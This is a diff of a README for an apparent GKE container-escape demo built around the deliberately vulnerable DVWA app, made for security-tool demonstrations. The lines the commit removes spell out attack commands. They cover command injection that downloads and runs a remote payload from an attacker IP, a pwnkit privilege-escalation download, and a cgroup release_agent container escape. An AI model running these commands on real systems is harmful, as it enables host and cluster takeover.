

Before and after one commit to mondoohq/samples, a Markdown page: gke/README.md, 2 parts joined by grey strips. Shown: that part at 84% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
gke/README.md++ , added pod++++
Signed-off-by: Manuel Weber <manuel@mondoo.com>

````diff
--- a/gke/README.md
+++ b/gke/README.md
@@ -1,4 +1,4 @@
-# AKS container escape demo
+# GKE container escape demo
 
 DVWA is the "Damn Vulnerable Web Application" that will be used to demonstrate how a vulnerability in a container can lead to access to the host and to the cluster.
 
@@ -15,7 +15,7 @@ This folder contains Terraform automation code to provision the following:
   - [Prerequsites](#prerequsites)
   - [Provision the cluster](#provision-the-cluster)
   - [Connect to the cluster](#connect-to-the-cluster)
-  - [Deploy Mondoo Operator to AKS](#deploy-mondoo-operator-to-aks)
+  - [Deploy Mondoo Operator to GKE](#deploy-mondoo-operator-to-gke)
     - [Deploy cert-manager](#deploy-cert-manager)
     - [Deploy Mondoo Operator](#deploy-mondoo-operator)
   - [Deploy and configure DVWA](#deploy-and-configure-dvwa)
@@ -83,53 +83,23 @@ terraform apply plan.out -auto-approve
 Once the provisioning completes you will see something like this:
 
 ```bash
-Apply complete! Resources: 14 added, 0 changed, 0 destroyed.
+Apply complete! Resources: 16 added, 0 changed, 0 destroyed.
 
 Outputs:
 
-public_ip_address = "13.92.179.31"
-resource_group_name = "rg-Lunalectric-container-escape"
+attacker_vm_name = "lunalectric-attacker-vm-oi71"
 summary = <<EOT
 
-attacker vm public ip: 13.92.179.31
+Connect to attacker VM (in 3-4 separate terminals):
+gcloud compute ssh lunalectric-attacker-vm-oi71
 
-terraform output -raw tls_private_key > id_rsa
-ssh -o StrictHostKeyChecking=no -i id_rsa azureuser@13.92.179.31
+Connect to your GKE cluster via gcloud:
+gcloud container clusters get-credentials lunalectric-gke-cluster-oi71 --region us-central1
 
-export KUBECONFIG="\$\{PWD}/aks-kubeconfig"
-kubectl apply -f dvwa-deployment.yml
+
+kubectl apply -f ../assets/dvwa-deployment.yml
 kubectl port-forward $(kubectl get pods -o name) 8080:80
 
-
-Hacking commands:
-
-dvwa-browser---------------
-
-;curl -vk http://13.92.179.31:8001/met-container -o /tmp/met
-;chmod 777 /tmp/met
-;/tmp/met
-
-privilege-escalation-------
-
-cd /tmp
-curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
-chmod a+x ./priv-es
-./priv-es
-
-container-escape-----------
-
-mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
-echo 1 > /tmp/cgrp/x/notify_on_release
-echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
-echo '#!/bin/sh' > /cmd
-echo "curl -vk http://13.92.179.31:8001/met-host -o /tmp/met" >> /cmd
-echo "chmod 777 /tmp/met" >> /cmd
-echo "/tmp/met" >> /cmd
-chmod a+x /cmd
-sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
-
-EOT
-tls_private_key = <sensitive>
 ```
 
 ## Connect to the cluster
@@ -142,9 +112,10 @@ gcloud container clusters get-credentials lunalectric-gke-cluster-$suffix --regi
 
 ```bash
 kubectl get nodes
-NAME                              STATUS   ROLES   AGE   VERSION
-aks-default-41472297-vmss000000   Ready    agent   24m   v1.22.11
-aks-default-41472297-vmss000001   Ready    agent   24m   v1.22.11
+NAME                                                  STATUS   ROLES    AGE   VERSION
+gke-lunalectric-gke--lunalectric-pool-0e144d64-33rz   Ready    <none>   82m   v1.23.16-gke.1400
+gke-lunalectric-gke--lunalectric-pool-b7d2d926-t991   Ready    <none>   83m   v1.23.16-gke.1400
+gke-lunalectric-gke--lunalectric-pool-d85199a0-2484   Ready    <none>   83m   v1.23.16-gke.1400
 ```
 
 ## Deploy Mondoo Operator to GKE
````
Also changed, not shown: other parts of gke/README.md (+17 -23 lines).
